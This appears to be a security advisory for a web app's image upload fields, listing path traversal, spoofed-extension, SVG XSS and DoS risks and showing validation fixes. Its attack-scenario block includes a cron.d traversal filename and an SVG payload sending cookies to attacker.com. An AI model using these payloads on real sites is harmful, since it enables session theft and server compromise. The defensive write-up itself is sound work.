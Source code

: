#### Vulnerability Description
File upload functionality across 8 ImageField instances lacked proper validation, allowing:
- **Path Traversal (CWE-22):** `../../../etc/passwd` sequences in filenames
- **Unrestricted Upload (CWE-434):** Malicious files disguised as images
- **XSS via SVG (CWE-79):** SVG files with embedded JavaScript
- **DoS Attacks (CWE-400):** Large file uploads, memory exhaustion

Affected models: User (avatar), Badge (image), Course (thumbnail, banner), Achievement (icon), ProgrammingLanguage (icon).

#### Attack Scenario
```python
# Path Traversal Attack
filename = "../../../etc/cron.d/malware"
upload_file(filename, malicious_content)
# File written to /etc/cron.d/malware ❌

# Extension Spoofing Attack
filename = "malware.php.jpg"  # PHP code disguised as JPEG
# Executed on misconfigured servers ❌

# SVG XSS Attack
svg_content = '''<svg onload="fetch('http://attacker.com/steal?cookie='+document.cookie)"/>'''
# Stored XSS when SVG rendered ❌
```

#### Fix Implementation

**Five-Layer Defense Strategy:**

**Layer 1: UUID-Based Filenames (Path Traversal Prevention)**
```python
@deconstructible
class SecureAvatarUpload:
    def __call__(self, instance, filename):
        ext = Path(filename).suffix.lower()
        ALLOWED_EXTENSIONS = {'.jpg', '.jpeg', '.png', '.gif', '.webp'}
        ext = ext if ext in ALLOWED_EXTENSIONS else '.jpg'
        unique_filename = f"{uuid.uuid4()}{ext}"
        return os.path.join('avatars', f'user_{instance.id}', unique_filename)
```
- ✅ No user input in file path
- ✅ UUID prevents path traversal
- ✅ Extension whitelist only

**Layer 2: Extension Validation**
```python
ALLOWED_EXTENSIONS = {'.jpg', '.jpeg', '.png', '.webp'}  # No .svg!
if ext not in ALLOWED_EXTENSIONS:
    raise ValidationError(f'Extension {ext} not allowed')
```

**Layer 3: MIME Type Validation (python-magic)**
```python
import magic
mime = magic.from_buffer(file_content, mime=True)
if mime not in {'image/jpeg', 'image/png', 'image/gif', 'image/webp'}:
    raise ValidationError(f'MIME type {mime} not allowed')
```
